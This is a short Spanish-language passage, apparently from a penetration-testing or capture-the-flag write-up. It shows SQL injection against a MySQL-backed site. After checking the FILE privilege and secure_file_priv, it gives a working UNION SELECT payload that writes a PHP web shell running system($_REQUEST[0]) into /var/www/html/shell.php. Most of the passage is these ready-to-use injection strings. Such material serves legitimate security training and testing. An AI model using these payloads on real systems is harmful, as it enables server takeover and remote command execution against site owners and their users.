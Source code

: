 Vemos que tenemos permiso en **FILE** y eso indica que puede tanto escribir y leer en el backend. Comprobamos **secure\_file\_priv** si podemos escribir datos.

```
'+UNION+SELECT+1,2,3,+variable_name,+variable_value+FROM+information_schema.global_variables+where+variable_name%3d"secure_file_priv"--+-
```

<figure><img src="../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

Eso significa que podemos escribir datos por lo que hacemos una web shell.

```
'+union+select+"","",'<%3fphp+system($_REQUEST[0])%3b+%3f>',+"",+""+into+outfile+'/var/www/html/shell.php'--+-
```

<figure><img src="../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>
